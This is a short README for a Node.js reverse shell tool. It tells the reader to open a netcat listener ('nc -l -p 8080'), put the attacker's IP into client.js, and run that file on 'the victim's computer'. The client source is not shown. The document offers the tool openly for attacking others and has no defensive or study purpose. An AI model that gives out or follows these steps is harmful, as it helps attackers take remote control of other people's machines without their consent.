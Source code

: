 <hr>

# Reverse Shell

### Reverse Shell made in Node.js, to use open a port and listen to it. You can do this easily with netcat.

```
nc -l -p 8080
```

### Now put your IP in the IP variable inside the client.js file

```js
var IP = "YOU IP"
```

### Now run the client.js file on the victim's computer, make sure she has the node and lib child_process installed

<p align="center">
    <img style="margin: 10px" src="https://github.com/JoPowerTech/ReverseShell/blob/main/screenshot.png" alt="print" height="10px"/>
</p>
<hr>
